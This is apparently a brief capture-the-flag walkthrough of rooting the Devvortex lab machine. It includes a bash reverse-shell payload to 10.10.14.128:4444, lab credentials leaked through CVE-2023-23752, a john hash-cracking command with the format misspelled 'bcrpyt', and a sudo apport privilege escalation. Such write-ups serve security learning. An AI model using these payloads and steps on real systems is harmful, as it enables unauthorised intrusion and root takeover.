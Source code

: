 # devvortex-reference
How I pwned devvortex

found hidden dir: dev.devvortex.htb

enumeration using dirsearch and seclists wordlist subdomains-top1million-20000.txt

found an admin page at /administrator/

Searched metasploit nothing came up

But on googling found an exploit at:
https://github.com/adhikara13/CVE-2023-23752

Reveals username as lewis and password as P4ntherg0t1n5r3c0n##

shell payload
`exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.128/4444 0>&1'");`

After getting the reverse shell stabilize it
This will allow commands such as mysql to be run without hassle

In the users table, the password hash was acquired which was cracked using 

`john --format=bcrpyt <filename> --wordlist=/usr/share/wordlists/rockyou.txt`

ssh creds:
username: logan
password: tequieromucho

After this run `sudo -l` which shows you that the `/usr/bin/apport` can run with root.
So, run it with the -f command and view a report.
This opens with a vim like interface which runs shell commands as root.
Enjoy!

Moral of the story: After running `sudo -l`, explore whatever that you find there.
